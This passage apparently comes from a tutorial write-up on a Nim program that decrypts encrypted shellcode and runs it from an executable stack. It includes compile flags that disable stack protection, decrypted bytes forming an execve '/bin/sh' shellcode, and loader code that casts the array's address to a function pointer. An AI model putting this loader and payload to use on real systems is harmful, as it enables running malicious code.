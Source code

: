 Once I compiled and ran the program, it would successfully decrypt back the encrypted shellcode, as shown below:

```bash
# Compile for 32-bit systems and set the stack as executable
nim c --hints:off --cpu:i386 -t:-m32 -l:-m32 -l:-fno-stack-protector -l:'-z execstack' decrypter.nim

# Show help usage
./decrypter

# [+] Usage:
#         ./decrypter --input=encrypted.bin --key='0123456789abcdef' [--output=decrypted.bin] [--execute]

# Decrypt encrypted data
./decrypter --input=/tmp/encrypted.bin --key='0123456789abcdef' --output=/tmp/decrypted.bin

# [+] Input shellcode: /tmp/encrypted.bin
# [+] Using encryption key: 0123456789abcdef
# [+] Output file: /tmp/decrypted.bin
# [+] Decrypted bytes: @[49, 192, 80, 104, 47, 47, 115, 104, 104, 47, 98, 105, 110, 137, 227, 80, 83, 137, 225, 176, 11, 205, 128]
# [+] Writing decrypted shellcode to file: /tmp/decrypted.bin
```

As you can see, the resulting shellcode, obtained from decrypting the encrypted shellcode, is identical the original one (unencrypted), meaning the program worked correctly. 

As regards running shellcode, it is a bit trickier ... maybe more than a bit. There are two problems:

- sequences (dynamic arrays) are stored on the heap, which isn't set as executable
- arrays (fixed-size structures) are stored on the stack, which I've set as executable using the aforementioned flags (`-l:-fno-stack-protector -l:'-z execstack'`).

Given I wanted to create a program that simply reads some shellcode (e.g. from a `shellcode.bin` file) and executes it, I couldn't use arrays, which are of fixed size, as I've already mentioned. But I couldn't use sequences either, as the shellcode wouldn't be executable and the program would return `SIGSEGV` (Segmentation Fault).

The solution, although not very optimal, was to:

1. use a very large array (in my case I chose `1024 bytes`)
2. copy the bytes inside this data structure
3. set the `EIP` register (Instruction Pointer) to the address of the first value of the array

Setting the EIP register was yet another hurdle. I couldn't simply get the address and then jump right to it, but I had to create a function pointing to the address of the first value of the array.

Follows the code that performs the execution of the shellcode, extracted from the program I linked previously:

```nim
proc main(): void =

    var shellcode_empty_array: array[1024, byte]

    for index, byte_value in decrypted_shellcode_bytes:
        shellcode_empty_array[index] = byte_value
    
    # get the address of the decrypted shellcode
    let shellcode_pointer = cast[ByteAddress](shellcode_empty_array.addr)
    
    # create a function pointing to this address
    var run_shellcode : (proc() {.cdecl, gcsafe.}) = cast[(proc() {.cdecl, gcsafe.})](shellcode_pointer)

    # in my case the function echo is based on fwrite, so you can set a
```